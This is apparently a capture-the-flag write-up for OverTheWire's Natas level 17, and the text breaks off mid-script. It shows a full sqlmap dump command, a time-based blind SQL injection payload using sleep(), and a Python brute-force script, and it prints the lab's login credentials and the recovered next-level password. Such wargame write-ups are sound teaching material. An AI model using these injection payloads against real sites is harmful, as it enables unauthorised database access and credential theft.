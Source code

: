 **Method 1**
Use *sqlmap*
```bash
sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php?" --time-sec=1 --auth-type=Basic --auth-cred=natas17:XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd  --data "username=natas18" --level=5 --risk=3 -D natas17 -T users -C username,password --dump --dbms=mysql
```
The only difference between this syntax and the one of level 15 is the `--time-sec=1` switch.
If you are seeing this for the first time i suggest you to check my explanation of this entire command on level 15 :)

This will get the job done in about 15 minutes.
And here it is: 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq

**Method 2**
You already know it, time for Python!
This time will be faster as we can save most of the code from the previous level and arrange some little things.
The query that we want to test is:
```sql
SELECT * from users where username="natas18" and password like binary '%a%' and sleep(5) #
```

```
natas18" and password like binary '%d%' and sleep(5) #
```

```python
#!/bin/python  
  
# import the libraries that we need  
import requests  
from requests.auth import HTTPBasicAuth  
  
# Save the login information in variables  
username = "natas17"  
password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"  
url = "http://natas17.natas.labs.overthewire.org/index.php?"  

# declare the username object for later use
req_object = {'username': ''}  
  
# Variables that will contain the possible chars and the final password  
chars_in_pswd = ''  
pswd = ''  
  
# login to natas17 challenge  
authentication = HTTPBasicAuth(username, password)  
print(requests.get(url, auth=authentication))  
  
# Saving all the possible chars in a variable for later use  
chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'  
  
# Loop to check the presence of each char  
for char in chars:  
    payload = {'username': 'natas18" and password LIKE BINARY "%' + char + '%" and sleep(3) #'}  
    req = requests.post(url, auth=authentication, data=payload)  
    if req.elapsed.seconds >= 3:  
        chars_in_pswd = chars_in_pswd + char  
  
# Print the chars that are contained in the final password  
print(chars_in_pswd)  
  
# Execute the brute-force attack  
for count in range(0, 32):  
    for char in chars_in_pswd:  
```